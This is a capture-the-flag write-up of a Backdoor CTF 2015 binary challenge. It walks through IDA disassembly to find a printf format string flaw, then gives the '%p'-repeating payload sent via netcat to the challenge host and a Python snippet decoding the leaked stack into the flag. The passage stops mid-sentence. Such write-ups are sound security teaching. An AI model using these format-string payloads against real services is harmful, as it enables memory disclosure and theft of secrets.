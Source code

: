 ```yaml
---
layout:     post
title:      Backdoor CTF 2015 team Writeup
date:       2015-05-04 12:00:00
summary:    Easy format string challenge writeup
categories: ctf format-string
---
```


## TL;DR
* Format string

Given that this challenge was 600 points, I expected to be challenged with this one. But with 91 solves I think the people at SDSLabs kinda messed up on the points for this one lol.

Checking out what type of file we were dealing with here:
{% highlight bash lineanchors %}
[~/Documents/CTFs/backdoor]$ file team
team: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped
{% endhighlight %}

Alright 32 bit, let's crack open IDA for this one then :D

### Aside
This program is stripped, meaning that we do not have any labels for any of the functions (functions don't have function names). IDA tries to search for patterns in the disassembly for where functions exist. For example, functions typically consist of a function prolog, 
{% highlight nasm lineanchors %}
push    ebp
mov     ebp, esp
...
{% endhighlight %}
and at the very end you would see something like, 
{% highlight nasm lineanchors %}
...
leave
ret
{% endhighlight %}

Looking at the code we can identify a function that IDA found to be the main function based on the parameters passed to `__libc_start_main`:

{% highlight nasm lineanchors %}
; int __cdecl main(int argc, const char **argv, const char **envp)
main proc near

argc= dword ptr  8
argv= dword ptr  0Ch
envp= dword ptr  10h

push    ebp
mov     ebp, esp
and     esp, 0FFFFFFF0h
sub     esp, 20h
mov     dword ptr [esp], 0C8h ; size
call    _malloc
mov     [esp+18h], eax
mov     dword ptr [esp], 64h ; size
call    _malloc
mov     [esp+1Ch], eax
mov     dword ptr [esp], offset format ; "Enter teamname: "
call    _printf
mov     eax, ds:stdout
mov     [esp], eax      ; stream
call    _fflush
mov     eax, [esp+18h]
mov     [esp+4], eax
mov     dword ptr [esp], offset a200s ; "%200s"
call    ___isoc99_scanf
mov     dword ptr [esp], offset aEnterFlag ; "Enter flag: "
call    _printf
mov     eax, ds:stdout
mov     [esp], eax      ; stream
call    _fflush
mov     eax, [esp+1Ch]
mov     [esp+4], eax
mov     dword ptr [esp], offset a100s ; "%100s"
call    ___isoc99_scanf
mov     dword ptr [esp], 2 ; seconds
call    _sleep
mov     eax, [esp+1Ch]
mov     [esp+4], eax
mov     eax, [esp+18h]
mov     [esp], eax
call    sub_80486AD
mov     eax, [esp+18h]
mov     [esp], eax      ; ptr
call    _free
mov     eax, [esp+1Ch]
mov     [esp], eax      ; ptr
call    _free
mov     eax, 0
leave
retn
main endp
{% endhighlight %}

My initial guess at what the vulnerability in this program was was a heap overflow because there were some calls to `malloc` and `free` which is very typical of a heap overflow sort of challenge. But looking a little more into this function, we see a call to another function `call    sub_80486AD` which consists of:

1) Opening the file "flag.txt"
{% highlight nasm lineanchors %}
...
mov     dword ptr [esp+4], offset modes ; "r"
mov     dword ptr [esp], offset filename ; "flag.txt"
call    _fopen
mov     [ebp+stream], eax
...
{% endhighlight %}
2) Reading the contents into a stack based buffer
{% highlight nasm lineanchors %}
...
mov     eax, [ebp+stream]
mov     [esp+8], eax    ; stream
mov     dword ptr [esp+4], 64h ; n
lea     eax, [ebp+s]
mov     [esp], eax      ; s
call    _fgets
...
{% endhighlight %}

3) and...drum roll...a format string vulnerability :D
{% highlight nasm lineanchors %}
...
mov     eax, [ebp+format]
mov     [esp], eax      ; format
call    _printf
...
{% endhighlight %}
Now you may ask yourself why is this a format string vulnerabilty? OK, so there is only one parameter given to the `printf` function and with our extensive C knowledge we know that the first parameter to the `printf` function is the format specifier for the function. So if the format specifier is `"%s"` and `printf` goes to get the second parameter then it will go grab the next parameter given by the user as the second parameter, but since we only are giving it one parameter...what would happen? (read more here if you are unsure: [stanford crypto](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)). Let's see which one of our inputs is actually the format string. If we look earlier in the program to see where this `format` string is coming from...
{% highlight nasm lineanchors %}
...
mov     eax, [ebp+arg_0]
mov     [ebp+format], eax
...
{% endhighlight %}
Alright so it is the first parameter to this function that is called. And if we look at when this function is called...
{% highlight nasm lineanchors %}
mov     eax, [esp+18h]
mov     [esp], eax
call    sub_80486AD
{% endhighlight %}
So `esp+18h` is where our buffer is located and that turns out to be...
{% highlight nasm lineanchors %}
mov     dword ptr [esp], offset format ; "Enter teamname: "
call    _printf         ; print out "Enter teamname: "
mov     eax, ds:stdout
mov     [esp], eax      ; stream
call    _fflush
mov     eax, [esp+18h]  ; the buffer passed into the vulnerable function
mov     [esp+4], eax
mov     dword ptr [esp], offset a200s ; "%200s"
call    ___isoc99_scanf ; read user input into the teamname buffer
{% endhighlight %}
So we know that what we enter into our teamname is the format string :D OK, so know we have the power to write and read to the stack and if we think about it for a second, our flag was read in from a file and put on a stack buffer... why don't we just dump the stack and then get our flag? (We thought that there was a pointer to the flag that we could just do a direct parameter access ie. "%12$s" to print out the flag really easily instead of parsing the stack but after a while of bruteforcing the direct parameter to access we started printing out environment variables and we knew that we went too far lol).

{% highlight python lineanchors %}
[~] python -c 'print "%p"*30' | nc hack.bckdr.in 8004
Enter teamname: Enter flag: <contents of stack>
[~] python
>>> flag_hex = "<hex of flag>"
>>> "".join([chr(int(a[6:8], 16)) + chr(int(a[4:6], 16)) + chr(int(a[2:4], 16)) + chr(int(a[0:2], 16)) for a in flag_hex.split("0x") if a]
<flag>
{% endhighlight %}

### Note
Since these challenges are still up, I just wrote down the steps to get the flag and not the actual flag itself

So there you have it :D

I would show the work that I did 